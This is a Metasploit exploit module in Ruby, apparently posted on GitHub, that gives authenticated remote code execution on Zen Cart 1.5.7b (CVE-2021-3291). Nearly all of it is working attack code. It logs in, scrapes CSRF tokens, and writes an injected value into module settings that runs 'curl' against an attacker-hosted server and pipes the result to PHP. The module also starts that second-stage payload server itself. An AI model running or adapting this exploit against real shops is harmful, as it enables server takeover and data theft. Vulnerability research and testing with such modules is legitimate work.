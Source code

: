 EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    ###
    #
    #
    # This exploit  write payload in database and trig to command
    # a bug in an zencart v1.5.7b web application
    #
    ###
    class MetasploitModule < Msf::Exploit::Remote
        Rank = NormalRanking

        include Msf::Exploit::Remote::HttpClient
        include Msf::Exploit::Remote::HttpServer

        def initialize(info = {})
          super(
            update_info(
              info,
              'Name'           => 'zencart authenticated remote code execution exploit',
              'Description'    => %q(
                  This exploit module execution os command in zencart.
              ),
              'License'        => MSF_LICENSE,
              'Author'         => ['Mucahit Saratar <trregen222@gmail.com>'], # msf module & research & poc
              'References'     =>[
                    [ 'OSVDB', '' ],
                    [ 'EDB', '' ],
                    [ 'URL', 'https://github.com/MucahitSaratar/zencart_auth_rce_poc'],
                    [ 'CVE', '2021-3291']
                ],
              'Platform'       => 'php',
              'Privileged'     => false,
              'Arch'           => ARCH_PHP,
              'Targets'        => [ ['Automatic', { }] ],
              'DisclosureDate' => '2021-01-22',
              'DefaultTarget'  => 0
            )
          )
          register_options(
            [
              Opt::RPORT(80),
              OptString.new('USERNAME', [ true, 'User to login with', 'admin']),
              OptString.new('PASSWORD', [ true, 'Password to login with', '']),
              OptString.new('BASEPATH', [ true, 'zencart base path eg. /zencart/', '/']),
              OptString.new('MODULE', [ true, 'Module name. eg. payment,shipping,ordertotal,plugin_manager', 'payment']),
              OptString.new('SETTING', [ true, 'setting name. eg. freecharger for payment', 'freecharger']),
              OptString.new('TARGETURI', [ true, 'Admin Panel Path', '/cracK-Fqu-trasH/'])
            ], self.class
          )
        end

        def start_server
            ssltut = false
            if datastore["SSL"]
                ssltut = true
                datastore["SSL"] = false
            end
            start_service({'Uri' => {
                'Proc' => Proc.new { |cli, req|
                  on_request_uri(cli, req)
                },
                'Path' => resource_uri
            }})
            print_status("payload is on #{get_uri}")
            @adresim = get_uri
            datastore['SSL'] = true if ssltut
        end

        def on_request_uri(cli, request)
            print_good('First stage is executed ! Sending 2nd stage of the payload')
            send_response(cli, payload.encoded, {'Content-Type'=>'text/html'})
          end

        def tabanyol
            datastore["BASEPATH"]
        end

        def isim
            datastore["USERNAME"]
        end

        def parola
            datastore["PASSWORD"]
        end


        def login
            #"index.php?cmd=login&camefrom=index.php"
            res = send_request_cgi(
            'method'    => 'GET',
            'uri' => normalize_uri(tabanyol, target_uri.path, "index.php"),
            'vars_get' => {
                'cmd' => 'login',
                'camefrom' => 'index.php'
            })
            # <input type="hidden" name="securityToken" value="c77815040562301dafaef1c84b7aa3f3" />
            unless res
                fail_with(Failure::Unreachable, "Access web application failure")
            end
            if res.code != 200
                fail_with(Failure::Unreachable, "we not have 200 response")
            end

            if !res.get_cookies.empty?
                @cookie = res.get_cookies
                @csrftoken = res.body.scan(/<input type="hidden" name="securityToken" value="(.*)" \/>/).flatten[0] || ''
                if @csrftoken.empty?
                    fail_with(Failure::Unknown, 'There is no CSRF token at HTTP response.')
                end
                vprint_good("login Csrf token: "+@csrftoken)
            end

            res = send_request_cgi(
                'method' => 'POST',
                'uri' => normalize_uri(tabanyol, target_uri.path, "index.php?cmd=login&camefrom=index.php"),
                'cookie' => @cookie,
                'vars_post' => {
                    'securityToken' => @csrftoken,
                    'action' => "do"+@csrftoken,
                    'admin_name' => isim,
                    'admin_pass' => parola
                })
                if res.code != 302
                    fail_with(Failure::UnexpectedReply, 'There is no CSRF token at HTTP response.')
                end
                true
            end


        def check
            unless login
                fail_with(Failure::UnexpectedReply, 'Wrong credentials')
                return CheckCode::NotVulnerable('Wrong credentials')
            end
            print_good("We loged in")
            Exploit::CheckCode::Vulnerable
            CheckCode::Vulnerable('Authenticated successfully')

        end

        def exploit
            check
            start_server
            sleep(4)
            res = send_request_cgi(
                'method' => 'GET',
                'uri' => normalize_uri(tabanyol, target_uri.path, "index.php"),
                'vars_get' => {
                    'cmd' => 'modules',
                    'set' => datastore["MODULE"],
                    'module' => datastore["SETTING"],
                    'action' => 'edit'
                },
                'cookie' => @cookie
            )
            if res.code != 200
                fail_with(Failure::UnexpectedReply, 'Something Wron. code must be 200')
            end
            # <input type="hidden" name="securityToken" value="09068bece11256d03ba55fd2d1f9c820" />
            if res && res.code == 200
                @formtoken = res.body.scan(/<input type="hidden" name="securityToken" value="(.*)" \/>/).flatten[0] || ''
                if @formtoken.empty?
                    fail_with(Failure::UnexpectedReply, 'securitytoken not in response')
                end
                #print_good(@formtoken)
                # <form name="modules"
                @radiolar = res.body.scan(/<input type="radio" name="configuration\[(.*)\]" value="True"/)
                @selectler = res.body.scan(/<select rel="dropdown" name="configuration\[(.*)\]" class="form-control">/)
                @textarr = res.body.scan(/<input type="text" name="configuration\[(.*)\]" value="0" class="form-control" \/>/)
                @secme = {}
                @secme["securityToken"] = @formtoken
                for @a in @radiolar
                    @secme["configuration[#{@a[0]}]"] = "True','F'); echo `curl #{@adresim} |php`; //"
                end
                for @a in @selectler
                    @secme["configuration[#{@a[0]}]"] = "0"
                end
                for @a in @textarr
                    @secme["configuration[#{@a[0]}]"] = "0"
                end
                print_good(@secme.to_s)
                res = send_request_cgi(
                    'method' => 'POST',
                    'uri' => normalize_uri(tabanyol, target_uri.path, "index.php"),
                    'cookie' => @cookie,
                    'vars_get' => {
                        'cmd' => 'modules',
                        'set' => datastore["MODULE"],
                        'module' => datastore["SETTING"],
                        'action' => 'save'
                    },
                    'vars_post' => @secme
                )

                res = send_request_cgi(
                    'method' => 'GET',
                    'uri' => normalize_uri(tabanyol, target_uri.path, "index.php"),
                    'vars_get' => {
                        'cmd' => 'modules',
                        'set' => datastore["MODULE"],
                        'module' => datastore["SETTING"],
                        'action' => 'edit'
                    },
                    'cookie' => @cookie
                )

            end
        end
      end